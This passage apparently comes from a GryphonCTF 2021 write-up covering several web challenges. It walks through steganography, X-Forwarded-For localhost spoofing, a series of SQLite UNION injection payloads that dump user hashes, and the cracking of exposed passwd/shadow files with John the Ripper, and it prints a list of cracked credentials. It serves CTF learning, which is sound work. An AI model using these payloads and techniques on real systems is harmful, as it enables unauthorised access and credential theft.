

This web challenge, we can see a login prompt and an image.


By viewing the strings of the image, we can see a Base64 message as well as some werid string.


Decoding the Base64 message with CyberChef we get the follow message.

```
dmVyeXNlY3VyZXBhc3NwaHJhc2U=
# verysecurepassphrase
```
For the weird strings, we can google it. We discovered that this string is used in Steghide. Thus, we can use the steghide tool to extract the hidden data with the passphrase we just retrieved.


Steghide extracted a text file, with the login credentials Meridius:HKw@8j$-cR

We can then return to the login page and login with the credential above. However, we were redirected to an error page as seen in the figure below.


We can google on how to view internal websites, base of some poor website flaws. We discoved that by adding localhost as the IP in the X-Forwarded-For header, it tricked the system into thinking that the originating IP was coming from the trusted/white-listed local machine.


Flag: GCTF{4113n\_48duc71n9\_c0w5}

<br/>

### [Web] SQL institute

Description: A friend is starting an online platform for learning about SQL and we have been invited as beta testers. Let's see if we can exploit anything.
nc c2.2021.gryphonctf.com 8002

By judging from the challenge title and descrption, we can guess that this challenge revolves around SQL injection vulnerability.

We can start off by perfoming a simple SQL injection attack with the following payload below.

```sql
' OR 1=1; -- -
```


Simple enough, we gained access and move onto the next page. Before we can perform more advanced SQL injection attack, we first need to identify the SQL Database type. You can use [PayloadsAllThings DMBS identification](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#dbms-identification). The following payload worked which means that the database is SQLite.

```sql
' UNION SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
```

As it returns us the version number by sending an SQLite comamnd, we can infer that it is a SQLite database.


After knowing the database type, we can enmurate the tables in the database by using the following payload below.

```sql
' UNION SELECT 1, tbl_name FROM sqlite_master;-- -
```

We can see there are two tables, user and workshop. We can then enumerate the columns name of each table.


To enumerate the columns, we can use the following payload to describe how the table was created.

```sql
' UNION SELECT 1, sql FROM sqlite_master WHERE tbl_name = 'user' AND type = 'table'; -- -
```


We can then retrieve the users in the user table with the following payload below.

```sql
' UNION SELECT username, password_sha256 FROM user; -- -
```

This gave us the username and the hashed password.

admin:c499244afdc389678cb2273a31fed27655e86a42a6f1fa2fdb112f73da8a5acb
joe:ef92b778bafe771e89245b89ecbc08a44a4e166c06659911881f383d4473e94f


By using [CrackStation](https://crackstation.net/), we were able to retrieve the plaintext of these hashes.

Afterwards, we can go back to the login page and login as the admin user. It will redirect us to the admin page with the flag.


Flag: GCTF{SQLi\_and\_b4D\_p4s5wdS}

<br/>

### [Web] Windows is da best

Description: Our website has been hacked and those Linux punks have modified our website. They've planted information and think they're smart with their hiding skills. Show them who's boss..


On the website, we can see a login prompt as well as a few images. This is a little tricky and easy to miss but the SP Logo is named as metadata.png. We can guess a message is hidden in the metadata of the image.

<p align="center">
    
</p>

By viewing the metadata of the image, we can see that the software and user comment seem to be encoded in Base64.


Base64 decoding both text returns us the following message:

```
U2VjcmV0IEtleSA9IExpbnV4Pw==
# Secret Key = Linux?

L2V0Yy9wYXNzd2Q=
# /etc/passwd
```

We can then guess that the passwd file is in the web server root for some reason, http://c1.2021.gryphonctf.com:9010/etc/passwd. The shadow file with the hashes can also be found in the web root /etc/shadow.

With this two files, we can then crack the passwords with John the Ripper. First we need to use the utility called unshadow to combine the passwd and shadow file into a format that John can read. Then we can feed it to JohnTheRipper to do some cracking.

```bash
unshadow passwd shadow > passwords.txt

john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt
```


We obtained many password, we can try logging in on the website with the root credential.

```plaintext
root:123abc:0:0:root:/root:/bin/bash
mail:picasso:8:8:mail:/var/mail:/bin/sh
news:tanner:9:9:news:/var/spool/news:/bin/sh
nanog:karina:1022:1022::/home/nanog:/bin/sh
jeff:firebird:1023:1023::/home/jeff:/bin/sh
alex:bourbon:1024:1024::/home/alex:/bin/sh
scott:colette:1025:1025::/home/scott:/bin/sh
jason:bradley:1026:1026::/home/jason:/bin/sh
bob:Tennis:1027:1027::/home/bob:/bin/sh
jim:cloclo:1028:1028::/home/jim:/bin/sh
adam:homerj:1029:1029::/home/adam:/bin/sh
james:dylan:1030:1030::/home/james:/bin/sh
tim:deliver:1031:1031::/home/tim:/bin/sh
majordomo:1212:1032:1032::/home/majordomo:/bin/sh
daniel:2kids:1033:1033::/home/daniel:/bin/sh
ben:hannah1:1034:1034::/home/ben:/bin/sh
hostmaster:bluejean:1035:1035::/home/hostmaster:/bin/sh
tom:54321:1036:1036::/home/tom:/bin/sh
snort:annie:1037:1037::/home/snort:/bin/sh
andy:bass:1038:1038::/home/andy:/bin/sh
andrew:fenris:1039:1039::/home/andrew:/bin/sh
greg:integra:1040:1040::/home/greg:/bin/sh
martin:ratio:1042:1042::/home/martin:/bin/sh
rob:houston:1043:1043::/home/rob:/bin/sh
stefan:bruce:1044:1044::/home/stefan:/bin/sh
sam:killer:1045:1045::/home/sam:/bin/sh
linux-kernel:cricket:1046:1046::/home/linux-kernel:/bin/sh
jonathan:tuesday:1047:1047::/home/jonathan:/bin/sh
erik:kombat:1048:1048::/home/erik:/bin/sh
orion:1964:1049:1049::/home/orion:/bin/sh
doug:bettyboop:1050:1050::/home/doug:/bin/sh
spam:liberty:1051:1051::/home/spam:/bin/sh
nessus:mhine:1052:1052::/home/nessus:/bin/sh
bugs:pollito:1053:1053::/home/bugs:/bin/sh
rick:lovelove:1054:1054::/home/rick:/bin/sh
josh:raymond:1055:1055::/home/josh:/bin/sh

36 password hashes cracked, 1 left
```

After logging as root, we can see the first part of the flag. The next part is the password that we found previous in the metadata of the SP Logo. The password is "Linux?".


After inputting the password, we get the complete flag.

Flag: GCTF{h0w\_d1d\_y0u\_f1nD\_m3??!??!@#$#}